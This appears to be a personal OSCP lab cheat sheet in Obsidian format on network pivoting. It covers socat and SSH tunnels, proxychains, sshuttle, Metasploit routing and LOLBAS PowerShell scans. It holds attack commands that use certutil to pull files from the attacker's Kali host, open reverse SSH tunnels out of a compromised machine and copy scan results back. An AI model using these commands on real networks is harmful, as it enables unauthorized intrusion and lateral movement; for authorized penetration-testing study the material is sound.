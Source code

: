 <%*
const path = tp.file.folder(true).split('/');
const filename = "4_B_Network_" + path[path.length - 1];
await tp.file.rename(filename)
-%>
# Port Redirect

\[Subnets\]                         WAN          |     Subnet  1     |      Subnet 2     |      Subnet 3
\[Hosts\]               Kali    --->   Machine A ---> Machine B ---> Machine C
\-
\[Simple\]                                        Socat                  Target
\[Local\]                                      SSH Client           SSH Server             Target
\[Remote\]     SSH Server          SSH Client              Target

### Simple static
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:$hip:$hport
```
(Machine A)

Alternative with netcat: https://gist.github.com/holly/6d52dd9addd3e58b2fd5
Alternative requiring root rights: iptables
### Local Dynamic
```powershell
ssh -N -D 0.0.0.0:9997 $user_B@$ip_B
```
(Machine A)

### Remote Dynamic with ProxyChains and SSH
> Requires SSH above 7.6. Check with `ssh -V`.
##### 1st Setup (kali machine)
SSH
```
ssh-keygen -t rsa -b 4096 -f ./id_rsa_kali
cat ./id_rsa_kali.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
ProxyChains
```bash
nano /etc/proxychains4.conf
```
> With it, tools that do not support socks proxys by default, can be made compatible with the tunnel IF they are (most) dynamically-linked binaries.
> For local redirects add `socks5 $hip 9999` to the end.
> For remote redirects use `socks5 127.0.0.1 9999`.
> If socks4 is required, UDP and IPv6 won't be supported.
##### Use it
(kali machine)
```bash
sudo systemctl start ssh
```

(Machine A, interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.195:8000/id_rsa_kali"; ssh -i id_rsa_kali -N -R 9997 kali@192.168.45.195
```
or
(Machine A, non-interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/id_rsa_kali"; ssh -f -q -o BatchMode=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa_kali -N -R 9997 kali@$hip
```

(kali machine)
`proxychains <command>` to start e.g. a nmap scan over the pivot. It appears to then not use the IP-Addresses put into `/etc/hosts`

### Remote Dynamic with sshuttle
> Requires python on machine A!

```bash
socat TCP-LISTEN:2222,fork TCP:$ip_B:22
```
(Machine A)

```bash
sshuttle -r $user_A@$ip_A:2222 $subnet_2 $subnet_1
```
(kali machine)

### Remote Dynamic with Metasploit
Within an exististing session:
1. `bg`
2. `use post/multi/manage/autoroute`, `set session 1`, and `run -j` (adjust the session number)
3. `use auxiliary/server/socks_proxy`, `set VERSION 5`, `set SRVHOST 127.0.0.1`, `set SRVPORT 9989`, and `run -j`
4. Add `socks5 127.0.0.1 9989` to `/etc/proxychains4.conf` 
# Fault handling
Test the connection
`proxychains nmap -Pn $hip -p $hport`
`sudo ss -ntplu`

Proxychains does not work with tool (e.g. enum4linux)
`proxychains -q`

Slow scanning speeds
--> lower `tcp_read_time_out` and `tcp_connect_time_out` in `/etc/proxychains4.conf`

Start SSH Agent on windows
`Get-Service ssh-agent | Select StartType` says disabled
--> `Get-Service -Name ssh-agent | Set-Service -StartupType Manual ; Start-Service ssh-agent`

Warning: remote port forwarding failed for listen port 9997
(After a previous session was killed, e.g. by a machine revert)
![[Pasted image 20231006140936.png]]

Correct ssh-key permissions on windows
```powershell
New-Variable -Name Key -Value "C:\Users\Public\id_rsa_kali"
# Remove Inheritance:
  Icacls $Key /c /t /Inheritance:d

# Set Ownership to Owner:
  # Key's within $env:UserProfile:
    Icacls $Key /c /t /Grant ${env:UserName}:F

   # Key's outside of $env:UserProfile:
     TakeOwn /F $Key
     Icacls $Key /c /t /Grant:r ${env:UserName}:F

# Remove All Users, except for Owner:
  Icacls $Key /c /t /Remove:g Administrator "Authenticated Users" BUILTIN\Administrators BUILTIN Everyone System Users

# Verify:
  Icacls $Key

# Remove Variable:
  Remove-Variable -Name Key
```
# Windows specific

Enable Telnet
```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```
Portscan LOLBAS
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$hip", $_)) "TCP port $_ is open"} 2>$null
```
Pingsweep LOLBAS (**I SPENT SOME TIME FINDING THE MOST EFFICIENT APPROACH AND FORGOT TO NOTE WHICH OF THESE WORKED**)
```powershell
workflow pingsweep { foreach -parallel ($computer in 1..254) { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$computer -Quiet) {echo "192.168.209.$computer"} {echo "nein"} } }; pingsweep
```

```powershell
1..254 | % { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$_ -Quiet) {echo "192.168.209.$_"}} 2>$null
```

```powershell
$(foreach ($computer in 1..254) { Start-Job -ScriptBlock { if ( Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$using:computer -Quiet ) {echo "192.168.209.$using:computer"} } }) | Receive-Job -Wait
```


For port forwarding techniques using the windows tools plink, and netsh, consider the oscp manual

##### Create working dirs and start individual system scanning

```bash
for i in $(tail -n 7 0_Hosts); do (mkdir -p "B_$i" && cd $_ && proxychains nmap -Pn --osscan-guess -T 5 -A --top-ports 100 $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html)& done
```

> **If you have a windows GUI oder linux CLI and Administrator rights, scan from the remote host itself:**

##### Scan with nmap from Windows
1. Install nmap, requires GUI
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.158:8000/nmap-7.94-win-setup.exe" ; .\nmap-7.94-win-setup.exe
```
You can find the installer in `/ftphome/`
2. Run pingsweep and add new hosts to `/etc/hosts`. Also, add them to `ips.txt` on the windows host 
```powershell
& "C:\Program Files (x86)\Nmap\nmap.exe" -sn 172.16.199."1-254" -oG - | findstr "Status: Up"
```
3. Run full scan
   ```powershell
ForEach ($i in $(Get-Content -Path ips.txt)){& "C:\Program Files (x86)\Nmap\nmap.exe" --osscan-guess -T 5 -A -p- $i -oX "C:\Users\tempadmin\${i}_fullscan.xml" }; 
ForEach ($i in $(Get-Content -Path ips.txt)){& "C:\Program Files (x86)\Nmap\nmap.exe" -sUV --top-ports 100 $i -oN "C:\Users\tempadmin\0_udp_top100_${i}.txt" }
```
4. Zip the resulting files and transfer them to kali, e.g. with:
```powershell
scp -i id_rsa_kali transfer.zip kali@192.168.45.158:'/home/kali/oscp/lab/Medtech/A_WEB02/extract'
```
5. Unzip the file and move all files to their respective host's folder.
7. Change the path within the .xml files so that xlstproc can find the nmap stylesheet, then run the latter.
```bash
for i in $(find .. -name "*fullscan.xml" | tr '\n' ' '); do \
cd ../$(echo $i | cut -d '/' -f2); \
mv 0_overview.html overview_from_A.html.bak; \
sed -i 's/C:\/Program Files (x86)\/Nmap\/nmap.xsl/usr\/bin\/..\/share\/nmap\/nmap.xsl/g' $i; \
xsltproc -o 0_overview.html $i; done
```